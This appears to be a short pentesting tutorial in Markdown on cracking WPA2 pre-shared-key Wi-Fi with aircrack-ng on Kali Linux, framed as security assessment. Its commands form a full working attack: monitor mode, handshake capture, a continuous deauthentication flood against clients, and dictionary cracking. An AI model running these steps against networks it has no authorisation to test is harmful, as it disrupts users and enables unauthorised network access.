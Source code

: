 ```yaml
---
title: "Cracking WPA2"
date: 2023-07-11
tags: ["pentesting", "linux"]
author: "Andy Sukowski-Bang"
description: "This short tutorial walks you through cracking WPA2 networks which use pre-shared keys using the [aircrack-ng](https://www.aircrack-ng.org) suite of tools to assess WI-FI network security. All of the necessary tools come preinstalled with the [Kali Linux](https://www.kali.org) distribution."
---
```


This short tutorial walks you through cracking WPA2 networks which use
pre-shared keys using the [aircrack-ng][1] suite of tools to assess WI-FI
network security. All of the necessary tools come preinstalled with the [Kali
Linux][2] distribution. The `#` in front of commands means, that they have to
be executed as the `root` user, e.g. using `sudo`.

## Wireless card into monitor mode

List all possible programs that could interfere with the wireless card. If
`kill` is specified, it will try to kill all of them.

```
# airmon-ng check kill
```

Enable monitor mode on an interface (here it's `wlan0`) and check if it worked.

```
# airmon-ng start wlan0
# airmon-ng
```

## Capture handshake

List Wi-Fi networks and their BSSIDs, Channels, etc.

```
# airodump-ng wlan0mon
```

Narrow search down to specific BSSID (MAC address).

```
# airodump-ng wlan0mon -d <BSSID>
```

Capture WPA2 handshake and write it to file (e.g. `handshake-01.cap`). Remember
to change interface name, if needed.

```
# airodump-ng -w handshake -c <channel> --bssid <BSSID> wlan0mon
```

**Optional in other terminal:** Simultaniously send deauthentication packets to
clients on the network to capture WPA2 handshake by forcing clients to
reauthenticate. Without this step, it might take some time to capture the
handshake.

```
# aireplay-ng --deauth 0 -a <BSSID> wlan0mon
```

## Crack password

After storing the handshake in e.g. `handshake-01.cap`, we can finally crack the
password using `aircrack-ng`.

```
# aircrack-ng handshake-01.cap -w dictionary.txt
```

Alternatively, we can extract the handshake from the `.cap` capture file and
convert it to a modern hashcat compatible hash file using
[hashcat.net/cap2hashcat][3], which can then be cracked using [hashcat][4].

[1]: https://www.aircrack-ng.org
[2]: https://www.kali.org
[3]: https://hashcat.net/cap2hashcat
[4]: https://hashcat.net/hashcat
